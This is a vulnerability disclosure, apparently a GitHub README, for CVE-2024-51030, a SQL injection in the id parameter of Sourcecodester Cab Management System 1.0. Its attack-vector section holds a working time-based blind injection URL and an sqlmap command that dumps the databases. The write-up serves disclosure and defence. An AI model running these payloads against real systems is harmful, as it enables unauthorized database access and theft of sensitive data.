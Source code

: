 # CVE-2024-51030

### Description
A SQL injection vulnerability in manage_client.php and view_cab.php of Sourcecodester Cab Management System 1.0 allows remote attackers to execute arbitrary SQL commands via the id parameter, leading to unauthorized access and potential compromise of sensitive data within the database.

### Vulnerability Type
SQL Injection

### Vendor of Product
Sourcecodester

### Affected Product Code Base: 
https://www.sourcecodester.com/php/15180/cab-management-system-phpoop-free-source-code.html - 1.0

### Affected Component: 
The Sourcecodester Cab Management System v1.0  is vulnerable to SQL injection through the id parameter in the manage_client.php & view_cab.php page.

### Attack Vectors:
1) Set up the application locally and login using the default provided admin credentials or you may also login using low privileged admin user like (staff).
2) Now, navigate to the following URL in your browser: http://localhost/cms/admin/?page=clients/manage_client&id=1
3) Inject SQL Payload: Modify the id parameter in the URL to include a boolean-based blind or time-based blind SQL injection payload:- http://localhost/cms/admin/?page=clients/manage_client&id=1%27%20AND%20(SELECT%202085%20FROM%20(SELECT(SLEEP(5)))LxyK)--%20mvKJ
4) Observe the Application Response: The page should take noticeably longer (5 seconds) to load if the injection is successful, confirming that the id parameter is vulnerable to SQL injection.
5) Now use SQLMap tool for further exploitation and dumping databases using the below command: sqlmap -u "http://localhost/cms/admin/?page=clients/manage_client&id=1"  -p id --dbms mysql --cookie="PHPSESSID=your_cookie" --risk 3 --level 4 --dbs  --dump

### Reference: 
1) https://owasp.org/www-community/attacks/SQL_Injection
2) https://portswigger.net/web-security/sql-injection
